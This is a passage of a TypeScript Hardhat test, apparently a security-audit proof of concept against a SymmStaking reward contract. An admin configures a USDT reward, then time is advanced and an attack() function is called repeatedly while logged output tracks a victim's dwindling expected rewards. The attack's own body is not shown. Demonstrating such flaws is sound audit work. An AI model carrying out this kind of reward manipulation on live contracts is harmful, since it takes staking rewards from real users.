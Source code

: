 ```typescript
			// Admin configures the USDT reward token and notifies a large reward amount.
			const rewardAmount = "604800";
			await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount);
			await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true);
			await symmStaking.connect(admin).notifyRewardAmount(
				[await usdtToken.getAddress()],
				[rewardAmount]
			);

			// Increase time by 1 day and log the initial expected reward.
			const day = 60 * 60 * 24;
			await time.increase(day);
			console.log(">>> [Time Travel] Increased time by 1 day.");
			let userExpectedEarning = await symmStaking.earned(user1.address, await usdtToken.getAddress());
			console.log(">>> [Reward Calculation] After 1 day, expected reward for User1:", userExpectedEarning.toString());

			// Log the current reward state before the attack.
			let rewardInfo = await symmStaking.rewardState(await usdtToken.getAddress());
			console.log(">>> [Reward State Before Attack] Duration:", rewardInfo.duration.toString());
			console.log(">>> [Reward State Before Attack] Rate:", rewardInfo.rate.toString());
			console.log(">>> [Reward State Before Attack] Period Finish:", rewardInfo.periodFinish.toString());
			console.log(">>> [Reward State Before Attack] Last Updated:", rewardInfo.lastUpdated.toString());
			console.log(">>> [Reward State Before Attack] Per Token Stored:", rewardInfo.perTokenStored.toString());

			// Day 2: Increase time and simulate attacker manipulation.
			await time.increase(day);
			await attack();
			console.log(">>> [Time Travel] Increased time by an additional 1 day (attacker intervention).");
			userExpectedEarning = await symmStaking.earned(user1.address, await usdtToken.getAddress());
			console.log(">>> [Reward Calculation] After 2 days, expected reward for User1:", userExpectedEarning.toString());

			// Day 3: Increase time and repeat the attack.
			await time.increase(day);
			await attack();
			console.log(">>> [Time Travel] Increased time by an additional 1 day (attacker intervention).");
			userExpectedEarning = await symmStaking.earned(user1.address, await usdtToken.getAddress());
			console.log(">>> [Reward Calculation] After 3 days, expected reward for User1:", userExpectedEarning.toString());

			// Day 4: Increase time and repeat the attack.
			await time.increase(day);
			await attack();
			console.log(">>> [Time Travel] Increased time by an additional 1 day (attacker intervention).");
			userExpectedEarning = await symmStaking.earned(user1.address, await usdtToken.getAddress());
			console.log(">>> [Reward Calculation] After 4 days, expected reward for User1:", userExpectedEarning.toString());

			// Day 5: Increase time and repeat the attack.
			await time.increase(day);
```